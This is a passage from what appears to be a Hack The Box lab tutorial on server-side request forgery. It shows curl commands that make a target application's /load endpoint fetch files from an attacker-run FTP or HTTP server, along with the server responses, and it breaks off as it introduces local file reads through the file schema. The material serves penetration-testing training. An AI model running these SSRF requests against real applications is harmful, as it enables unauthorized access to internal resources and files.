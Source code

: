 3. Inside the directory where index.html is located, start an FTP Server via the following command

**Start FTP Server**

SSRF Exploitation Example

```shell-session
AIceBear@htb[/htb]$ sudo pip3 install twisted
AIceBear@htb[/htb]$ sudo python3 -m twisted ftp -p 21 -r .
```

4. Retrieve index.html through the target application using the `ftp` schema, as follows

**Retrieving a remote file through the target application - FTP Schema**

SSRF Exploitation Example

```shell-session
AIceBear@htb[/htb]$ curl -i -s "http://<TARGET IP>/load?q=ftp://<VPN/TUN Adapter IP>/index.html"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 41
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 11:21:09 GMT

<html>
</body>
<a>SSRF</a>
<body>
<html>
```

5. Retrieve index.html through the target application using the `http` schema, as follows

**Retrieving a remote file through the target application - HTTP Schema**

SSRF Exploitation Example

```shell-session
AIceBear@htb[/htb]$ curl -i -s "http://<TARGET IP>/load?q=http://<VPN/TUN Adapter IP>:9090/index.html"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 41
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 11:26:18 GMT

<html>
</body>
<a>SSRF</a>
<body>
<html>
```

6. Retrieve a local file using the file schema, as follows
